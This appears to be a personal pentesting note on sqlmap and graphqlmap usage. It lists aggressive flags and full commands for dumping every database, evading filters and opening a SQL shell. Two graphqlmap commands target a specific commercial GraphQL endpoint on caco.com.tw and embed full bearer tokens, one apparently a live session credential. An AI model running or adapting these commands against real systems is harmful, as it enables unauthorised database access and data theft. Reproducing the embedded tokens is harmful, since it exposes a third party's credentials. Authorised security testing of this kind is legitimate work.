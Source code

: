 ```yaml
---
date: 2022-06-28
modified: 2022-07-14
---
```

## Metadata
up:: [[sqlmap]]

---
## Record Usage
**Freq Param**
```bash
--data="id=123"
--level 5 --risk 3
--sql-shell
--delay 0.2 --smart 
--force-ssl --fresh-queries
--random-agent # victim may store User-Agent, This setting may cause missing
--threads 10
-p <param>
--ignore-redirect

-T4 --dbs --tables --level 5 --risk 3 --sql-shell --smart --fresh-queries
```
[SQLMap - Cheetsheat - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)
**Used Param**
```bash
--no-cast
--randomize
--hex
```
[[sqlmap.Temper]]
**POST with JSON and STAR sign**
`-r REQUESTFILE      Load HTTP request from a file`
> 手動在要測試的參數的值，後綴加上 `*` 用以指定參數，使用帶 json 的，sqlmap 不支援 `-p` 指定參數，必須用星號
```bash
$ sqlmap -r rq.txt -T4 --current-db --dbs --tables --dump --level 5 --risk 3 --threads 10 --sql-shell --dbms=Mysql

# with Burp Listener
$ sqlmap -r try3woutstar.txt -T4 --random-agent --force-ssl --banner --current-db --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --fresh-queries --proxy="http://192.168.3.19:9527" -v 3 --randomize

graphqlmap -u graphqlmap -u https://www.caco.com.tw/ims030/ims/storeinventory/graphql/listbyd1r1storeitemno -v --method POST  -v --method POST --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXh0Ijoibm8gc2VjcmV0cyBoZXJlID1QIn0.JqqdOesC-R4LtOS9H0y7bIq-M8AGYjK92x4K3hcBA6o"}'

```

```
graphqlmap -u https://www.caco.com.tw/ims030/ims/storeinventory/graphql/listbyd1r1storeitemno -v --method POST --headers '{"Authorization" : "Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1cG4iOiLjhIzwqaWW6IOE6ZOo6aC38JGEvuaPmPCimLjwl6q-8K2OqfCQmqXjiKvwqpek2Y3wpKGn5p2nIiwic3ViIjoiU0VDVVJJVFlfTE9HSU5fVEVNUCIsImdyb3VwcyI6WyJ0ZW1wb3JhcnkiXSwiY21wdWlkIjoiQjEwRjAwMDAyMSIsInN0b3JldWlkIjoiQjEwRjAwMDBYRCIsInVpZCI6IuOEjPCppZbog4Tpk6jpoLfwkYS-5o-Y8KKYuPCXqr7wrY6p8JCapeOIq_Cql6TZjfCkoafmnaciLCJlbnRhY2N0dWlkIjoiY29tLmNhY28uZXJwIiwid2Vic2l0ZXVpZCI6IkpyVk52SG1TQjg2ZHlWZngiLCJ1c2VyaWQiOiJ0ZW1wb3JhcnkiLCJ1c2VybmFtZSI6InRlbXBvcmFyeSIsImlhdCI6MTY1Nzg0OTU0MCwiZXhwIjoxNjU3ODc4MzQwLCJqdGkiOiI3NmU4N2QxOS1hNjVmLTRiMTgtODQ1ZC1kZTkyZTlhZmM0NTciLCJpc3MiOiJodHRwczovL3d3dy5jYWNvLmNvbS9pc3N1ZXIiLCJhdWQiOiJhbGwifQ.Fj-MN1SI_qeKVIBEbHbSaPPa70G9TQTm9IJ5a7dFB2NoF5CutJN1j61FORrKxkn5bPON1pjrk8tcXl7sAjtsArOiCcBj-nalbEvBtQg_vpZQu1BW3W79JjE8wt_g_FHhS7MBctMdFvUl61SbWuLx-eY9sFBjLXHGDTU34OI2rE-GtKKHEdh8utAq9DPtWGR8CWiK_rrCBDLTVKZ0Mln_jobrBpaA41kiK0I6S55NCZf58-L5PaNSg9898J3AcAinp1D06rNRUWLAhpU4UyDH8OMWQPUHB-vu5wvWrk-n0F4bIBjwbVfzhBw4mfjcrG_esTQ5eTLwpxAsrVz9k4rMRA"}'
```

